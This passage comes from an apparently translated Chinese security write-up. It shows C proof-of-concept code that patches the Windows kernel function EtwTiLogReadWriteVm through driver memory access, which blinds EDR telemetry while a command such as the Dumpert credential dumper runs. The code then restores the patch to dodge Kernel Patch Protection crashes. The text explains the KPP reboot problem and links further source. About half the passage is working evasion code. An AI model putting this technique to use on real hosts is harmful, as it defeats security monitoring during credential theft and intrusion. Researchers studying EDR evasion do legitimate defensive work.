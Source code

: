 ```
        printf("\n\n");
            printf("[+] Execution finished with exit code: %d\n", retCode);
    }
    else
    {
        printf("[*] Errore reading kernel memory \n");
    }
    }
}
```

当我们第一次执行PoC时，我们以为能看到成功结果，或者遇到BSOD，然而结果却比较尴尬。我们的工具成功patch，并且执行Dumpert也没有触发警报，然而在几分钟后，目标主机开始重启。通过事件查看器，我们发现了Kernel Patch Protection（内核补丁保护，KPP）的身影（EventData 0x00000109）。

KPP会定期执行检查，确保内核中受保护的系统结构没被篡改。如果检测到不一致，那么将出现蓝屏以及/或者重新启动。

我们的目标并非绕过KPP，但至少要限制BSOD出现的几率。经测试后，我们发现每隔5到10分钟，KPP的检测机制就会发现我们的patch操作，我们的执行时间只有几秒钟。因此我们改进了思路，只有在必要的时候再patch内核，执行完毕后再恢复初始状态。大家可以参考[此处](https://gist.github.com/b4rtik/daefa2b3d9c99d825e354f4d32ec9927)的部分源代码。

```
for (i = 0; i &lt; ModuleInfo-&gt;NumberOfModules; i++)
{
    if (strcmp((char *)(ModuleInfo-&gt;Modules[i].FullPathName + ModuleInfo-&gt;Modules[i].OffsetToFileName), "ntoskrnl.exe") == 0)
    {
    printf("[+] Kernel address: %#x\n", ModuleInfo-&gt;Modules[i].ImageBase);

    uintptr_t pml4 = find_directory_base(ghDriver);
    printf("\n");

    BOOL result = read_virtual_memory(ghDriver, pml4, (uintptr_t)ModuleInfo-&gt;Modules[i].ImageBase, buffer, searchlen);
    if(result)
    {
        DWORD offset = searchSign((unsigned char*)buffer, signature, sizeof(signature));
        free(buffer);
        printf("[*] Offset %d\n", offset - backoffset);

        BYTE EtwTiLogReadWriteVmOri = patchFunction(ModuleInfo-&gt;Modules[i].ImageBase, pml4, offset - backoffset, "EtwTiLogReadWriteVm");

        printf("[+] Run your command now\n");

        int retCode = system(argv[1]);

        printf("\n\n");
            printf("[+] Execution finished with exit code: %d\n", retCode);
        printf("[+] Proceed to restore previous state.\n");

        patchFunction(ModuleInfo-&gt;Modules[i].ImageBase, pml4, offset - backoffset, "EtwTiLogReadWriteVm", EtwTiLogReadWriteVmOri);
    }
    else
    {
        printf("[*] Errore reading kernel memory \n");
    }
    }
}
```
